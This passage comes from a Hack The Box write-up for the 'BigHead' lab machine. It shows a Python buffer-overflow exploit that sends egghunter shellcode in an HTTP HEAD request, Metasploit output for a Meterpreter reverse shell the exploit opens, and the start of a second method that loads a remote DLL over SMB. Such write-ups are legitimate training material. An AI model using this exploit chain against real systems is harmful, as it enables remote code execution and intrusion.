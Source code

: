 ```python
p.body = payload
del p.headers["Content-Type"]
try:
    s.send(p, proxies=proxies, timeout=0.2)
except requests.exceptions.ReadTimeout:
    pass

r = remote("10.10.10.112", 80)
jmp_eax = "f2125062"
align_esp = "505C" # push eax, pop esp
egghunter = "6681caff0f42526a0258cd2e3c055a74efb8773030748bfaaf75eaaf75e7ffe7"
stage2 = align_esp + egghunter + "9090" + jmp_eax

r.send("HEAD /" + stage2 + " HTTP/1.1\r\nHost: dev.bighead.htb\r\n\r\n")
```

Launching exploit... 
```
# python exploit.py 
[+] Opening connection to 10.10.10.112 on port 80: Done
[*] Closed connection to 10.10.10.112 port 80

msf5 exploit(multi/handler) > 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (179808 bytes) to 10.10.10.112
[*] Meterpreter session 4 opened (10.10.14.23:80 -> 10.10.10.112:49306) at 2019-05-03 20:47:52 -0400

msf5 exploit(multi/handler) > 
msf5 exploit(multi/handler) > sessions 4
[*] Starting interaction with 4...

meterpreter > getuid
Server username: PIEDPIPER\Nelson
```

### Exploit development (Method #2 using LoadLibrary over SMB)

Instead of using an egghunter, we can also use the `LoadLibrary` function to load a remote DLL hosted on our machine through the Impacket SMB server. Using the debugger, I can see that the `LoadLibrary` is exported from `bheadsrv.dll` at address `0x625070C8`.

![](/assets/images/htb-writeup-bighead/exploit/loadlibrary.png)

The function is simple and only expects a single parameter: the filename of the DLL file:

```
HMODULE LoadLibraryA(
  LPCSTR lpLibFileName
);
```
